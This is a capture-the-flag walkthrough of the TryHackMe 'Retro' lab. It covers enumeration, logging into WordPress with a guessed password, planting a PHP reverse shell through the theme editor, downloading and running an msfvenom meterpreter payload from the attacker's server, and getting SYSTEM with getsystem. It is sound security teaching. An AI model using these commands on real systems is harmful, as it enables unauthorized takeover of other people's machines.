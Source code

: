 ```yaml
---
layout: default
title: Retro
description: THM - Retro
---
```


## Enumeration
Nmap:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 20:18 EEST
Nmap scan report for 10.10.190.35
Host is up (0.067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.00 seconds
```
Gobuster:
```
/retro
/retro/wp-content
/retro/wp-includes
/retro/wp-login.php
```
From the gobuster results, we figure that the website is running on wordpress.
The host OS is windows, so we may need to look into some powershell later on.

Let's take a look at the website. CTF creators like to hide things in plain sight.

We click on "Wade" and we have all his posts and comments.

Let's read through some posts.

Alright, found nothing, but there was a single comment.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/retro_01.png)

Let's try logging into wordpress with that word as a password, and I'll try a few usernames like wade, admin, etc.

And we're in!

## Exploitation

Now we'll use the good ol' theme editor to get a reverse shell on the system.

I'll use Twenty Seventeen, with a php shell from Ivan Sincek, but you can go ahead and experiment. Replace the 404.php content with your shell, and launch it.


```
10.10.190.35/retro/wp-content/themes/twentyseventeen/404.php
```
```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.190.35 49854
SOCKET: Shell has connected! PID: 1864
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro\wp-content\themes\twentyseventeen>

```
Great! We have a shell. Let's look around for interesting files, and write permissions.

First of all, I'll pop into powershell since I find it easier to navigate with.
```
PS C:\Users> cd Wade
PS C:\Users\Wade> ls
ls : Access to the path 'C:\Users\Wade' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Wade:String) [Get-Ch 
   ildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell. 
   Commands.GetChildItemCommand
 
PS C:\Users\Wade> 

```
I tried accessing the "Wade" folder, but my access is denied. Same story with the admin folder.

This being a Windows machine, most likely we'll have write access to the public folders. Let's give it a go.

First, I'll generate an msfvenom payload for a reverse_tcp connection.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.116.220 LPORT=9003 -f exe -o reverse.exe
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.18.116.220; set lport 9003; exploit"
```
And now, with a python http server open, let's try to download and execute the "reverse.exe" file
```
PS C:\Users\Public> $url = "http://10.18.116.220:8000/reverse.exe"
PS C:\Users\Public> $outpath = "C:/Users/Public/reverse.exe"
PS C:\Users\Public> Invoke-WebRequest -Uri $url -OutFile $outpath
PS C:\Users\Public> ls


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---        12/8/2019  10:49 PM                Documents                     
d-r---        7/16/2016   6:23 AM                Downloads                     
d-r---        7/16/2016   6:23 AM                Music                         
d-r---        7/16/2016   6:23 AM                Pictures                      
d-r---        7/16/2016   6:23 AM                Videos                        
-a----        9/23/2023  10:42 AM           7168 reverse.exe                   


PS C:\Users\Public>

```

Good, we now have our payload on the machine. Let's try running it.
```
PS C:\Users\Public> .\reverse.exe

payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.18.116.220
lport => 9003
[*] Started reverse TCP handler on 10.18.116.220:9003 
[*] Sending stage (200774 bytes) to 10.10.190.35
[*] Meterpreter session 1 opened (10.18.116.220:9003 -> 10.10.190.35:49874) at 2023-09-23 20:43:39 +0300

meterpreter > getuid
Server username: IIS APPPOOL\retro
meterpreter > 

```
Nice, we have a meterpreter shell.

## Privilege Escalation:

We'll use the default meterpreter "getsystem" command.
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
We now have system privileges. We can read both flags and submit them!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/retro)

[back](./)
